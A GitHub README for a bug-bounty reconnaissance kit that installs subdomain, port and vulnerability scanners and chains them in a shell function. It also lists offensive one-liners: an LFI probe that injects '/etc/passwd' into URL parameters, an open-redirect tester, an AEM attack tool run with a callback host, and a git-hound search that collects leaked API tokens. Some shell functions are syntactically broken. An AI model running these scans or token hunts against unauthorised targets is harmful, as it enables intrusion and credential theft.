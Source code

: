 # Recon-bugbounty

Simple recon using multiple tools!


![enum](https://raw.githubusercontent.com/hackerspider1/Recon-bugbounty/main/enum.png)

If you have Go installed and configured (i.e. with $GOPATH/bin in your $PATH):

### Install Assetfinder

`
▶ go get -u github.com/tomnomnom/assetfinder
`

### Install anew

`
▶ go get -u github.com/tomnomnom/anew
`

### Install Amass

If you have brew installed if not `/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"`

`
▶ brew install amass
`

### Install Subfinder

`
▶ go install -v github.com/projectdiscovery/subfinder/v2/cmd/subfinder@latest
`

### Install httpx

`
▶ go install -v github.com/projectdiscovery/httpx/cmd/httpx@latest
`

### Install Aquatone

- Download the [latest release](https://github.com/michenriksen/aquatone/releases/latest) of Aquatone for your operating system.
- Uncompress the zip file and move the aquatone binary to your desired location. You probably want to move it to a location in your $PATH for easier use.

### Install Naabu

`
▶ go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest
`

### Install Subjack

`
▶ go get github.com/haccer/subjack
`

### Install Nuclei

`
▶ go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
`

### Install Jaeles

If you have a Go environment, make sure you have Go >= 1.13 with Go Modules enable and run the following command.

`
▶ GO111MODULE=on go get github.com/jaeles-project/jaeles
`

### Install ffuf

`
▶ go get -u github.com/ffuf/ffuf
`
You can use dirsearch as well.

`
▶ pip3 install dirsearch
`

Download the wordlist `▶ wget "https://raw.githubusercontent.com/hackerspider1/Recon-bugbounty/main/dir.txt"`

# Enum

Add the following in your .zshrc

```shell
enum(){
        mkdir $1
	cd $1
        assetfinder -subs-only "$1" | tee -a domains
        cat domains | anew domains.txt
	amass enum -brute -active --passive -d "$1" -o domains -config ~/.config/amass/config.ini
        cat domains | anew domains.txt
        rm domains
        subfinder -silent -d "$1" -o domains
        cat domains | anew domains.txt
        rm domains
        cat domains.txt | httpx -silent | tee -a hosts.txt
	osascript \
        -e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "cd '`pwd`' && dirsearch -l hosts.txt -t 20 -x 500 -e asp,aspx,htm,html,gz,tgz,zip,txt,php,pl,tar,action,do --excl\ude-status=301,400,403,500-999"'\
        -e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "echo '$1' | git-hound"'
        -e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "kr scan '$1' -A=apiroutes-210228:20000 -x 10 --ignore-length=34x"'
	-e 'tell application "iTerm2" to tell current window to set newWindow to (create tab with default profile)'\
        -e 'tell application "iTerm2" to tell current session of newWindow to write text "cd '`pwd`' && jaeles scan -s ~/.jaeles/ -U hosts.txt 
        cat domains.txt | aquatone -out screens -scan-timeout 200 -screenshot-timeout 60000 -ports xlarge
        naabu -silent -iL domains.txt > portscan.txt
        subjack -w domains.txt -t 100 -timeout 20 -o subjack_out.txt --ssl -c ~/fingerprints.json
	nuclei -l hosts.txt -t ~/nuclei-templates/ -markdown-export reports
	code reports/
	#for i in $(cat hosts.txt); do ffuf -u $i/FUZZ -w ~/Documents/bugbounty/wordlist/dir.txt -ac -c -e php,txt,asp,html,aspx; done
}
```

### Install Git-hound

- Download the [latest release of GitHound](https://github.com/tillson/git-hound/releases)
- Create a ./config.yml or ~/.githound/config.yml with your GitHub username and password. Optionally, include your 2FA OTP seed. See [config.example.yml](https://github.com/tillson/git-hound/blob/master/config.example.yml).
- If it's your first time using the account on the system, you may receieve an account verification email.

### Install Kiterunner

You can download a pre-built copy from (https://github.com/assetnote/kiterunner/releases).

# Aemhack

```
git clone https://github.com/0ang3el/aem-hacker.git
cd aem-hacker
python3 aem_hacker.py -u https://aem.webapp --host your_vps_hostname_ip
```
Add it to .zshrc

`aemhack (){
python3 ~/aem-directory/aem-hacker/aem_hacker.py -u $1 --host $2
}`

# One-Liner

### LFI

```shell
lfi () {
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
}
```

### Open-redirect

```shell
open-redirect () {
local LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
}
```

### Githound

```shell
githound(){
echo "$1" | git-hound --dig-files --dig-commits --many-results --regex-file key.txt --results-only > api_tokens.txt"
}
```

# Thanks
#### We use tools which are developed by the following people
[OWASP](https://github.com/OWASP/), [ProjectDiscovery](https://github.com/projectdiscovery/), [Tom Hudson](https://github.com/tomnomnom/), [Tillson Galloway](https://github.com/tillson), [0ang3el](https://github.com/0ang3el), [Michael Henriksen](https://github.com/michenriksen), [Jaeles Project](https://github.com/jaeles-project)

Let me know one-liner owner would like to give credit!!

<a href="https://www.buymeacoffee.com/hackerspider1" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" style="height: 51px !important;width: 217px !important;" ></a>
[![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donateCC_LG.gif)](https://paypal.me/hackerspider1)
